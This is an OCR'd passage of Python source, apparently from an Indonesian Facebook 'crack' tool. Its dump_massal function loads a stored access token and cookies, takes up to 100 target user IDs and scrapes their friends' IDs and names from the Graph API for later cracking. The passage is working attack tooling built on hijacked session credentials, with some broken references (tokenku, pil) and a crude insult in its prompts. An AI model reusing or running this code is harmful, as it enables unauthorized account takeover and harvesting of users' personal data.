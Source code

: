 		print('>> Sukses Logout+Hapus Kukis ')
		exit()
	else:
		print('╰─> Pilih Yang Bener Asu ')
		back()
#-------------------[ CRACK-PUBLIK ]----------------#
def dump_massal():
    try:
        token = open('.token.txt','r').read()
        cok = open('.cok.txt','r').read()
    except IOError:
        exit()
    try:
        jum = int(input(f'{P} Input idz Put Limit {M}:{H} '))
        #iid = input('file name : ')
    except ValueError:
        print('Your System Error ')
        exit()
    if jum<1 or jum>100:
        print(f' {M}Bro Inputted Idz Private {K}: {B}{pil} ');time.sleep(3)
        exit()
        #exit()
    ses=requests.Session()
    yz = 0
    for met in range(jum):
        yz+=1
        kl = input(f'{P} Input idz {str(yz)} {M}:{H} ')
        uid.append(kl)
    for userr in uid:
        try:
            col = ses.get('https://graph.facebook.com/v2.0/'+userr+'?fields=friends.limit(5000)&access_token='+tokenku[0], cookies = {'cookies':cok}).json()
            for mi in col['friends']['data']:
                try:
                    iso = (mi['id']+'|'+mi['name'])
                    if iso in id:pass
                    else:id.append(iso)
                except:continue
        except (KeyError,IOError):
            pass
        except requests.exceptions.ConnectionError:
            print(' net connection error')
            exit()
    try:
        print('')
        setting()
    except requests.exceptions.ConnectionError:
        print(f'{x}')
        print(' net connection error')
        back()
    except (KeyError,IOError):
        print(f' {M} Bro Inputted Idz Private {K} ');time.sleep(3)
        time.sleep(3)
        back()
